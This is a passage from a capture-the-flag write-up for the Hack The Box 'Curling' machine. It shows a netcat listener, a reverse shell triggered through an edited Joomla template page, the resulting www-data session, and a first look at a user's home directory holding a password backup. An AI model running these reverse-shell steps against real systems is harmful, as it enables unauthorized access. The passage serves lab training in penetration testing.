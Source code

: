 ![htb_curling_edit.png](../assets/curling_assets/htb_curling_edit.png)

Once this is saved we can set up a listener, and navigate to 10.129.130.63/templates/protostar/error.php?

Which triggers our reverse shell as www-data:

```
┌──(ryan㉿kali)-[~/HTB/Curling]
└─$ nc -lnvp 443 
listening on [any] 443 ...
connect to [10.10.14.114] from (UNKNOWN) [10.129.130.63] 56634
Linux curling 4.15.0-156-generic #163-Ubuntu SMP Thu Aug 19 23:31:58 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 16:18:32 up  1:02,  0 users,  load average: 0.00, 0.09, 1.24
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname
curling
```

From here we will need to move laterally to get access to the first flag:

```
www-data@curling:/home/floris$ ls
admin-area  password_backup  user.txt
www-data@curling:/home/floris$ cat user.txt
cat: user.txt: Permission denied
```
Inside user floris's home directory there is an interesting file called password_backup
